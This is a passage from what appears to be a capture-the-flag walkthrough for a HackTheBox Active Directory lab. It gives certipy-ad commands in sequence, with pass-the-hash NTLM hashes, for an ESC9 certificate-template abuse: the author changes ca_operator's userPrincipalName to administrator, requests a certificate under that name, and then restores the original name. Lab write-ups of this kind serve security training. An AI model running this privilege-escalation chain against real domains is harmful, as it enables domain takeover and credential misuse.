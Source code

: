 5.  **RUN:** **export KRB5CCNAME=ca_operator.ccache**

6.  Change the **userPrincipalName** of **ca_operator to be
    Administrator**

[**INFO: Paste the NTLM HASH** from **BOTTOM OF SCREENSHOT in FOOTHOLD
STEP 8**]{.mark}

> **RUN:** **certipy-ad account update -username
> management_svc@certified.htb -hashes
> \':a091c1832bcdd4677c28b5a6a1295584\' -user ca_operator -upn
> administrator@certified.htb -ns 10.10.11.41**
>
> **Result: See screenshot in STEP 7, down below.**

7.  Now, we request the vulnerable certificate template ESC9 . We must
    **request the certificate as ca_operator**

> **[INFO: Take the hash from result in TERMINAL of STEP 4]{.mark}**
>
> **[INFO: certified-DC01-CA\' = common name of Certificate Authority
> (CA)]{.mark}**
>
> **RUN:** **certipy-ad req -ca \'certified-DC01-CA\' -username
> ca_operator@certified.htb -hashes c22b315c040ae6e0efee3518d830362b
> -template CertifiedAuthentication -ns 10.10.11.41**
>
> Saves PFX file.
>
> **ERROR: The NETBIOS connection with the remote host timed out**
>
> Solution: **Repeat command from STEP 7**
>
> ![](images/media/image30.png){width="6.291666666666667in"
> height="1.3229166666666667in"}

8.  Then, we **change** **back** the **userPrincipalName** of
    **ca_operator to be something else**, like her original
    **userPrincipalName** ca_operator@certified.htb .

> **RUN:** **certipy-ad account update -username
> management_svc@certified.htb -hashes
> \':a091c1832bcdd4677c28b5a6a1295584\' -user ca_operator -upn
> ca_operator@certified.htb -ns 10.10.11.41**
>
> ![](images/media/image31.png){width="6.2868055555555555in"
> height="0.59375in"}
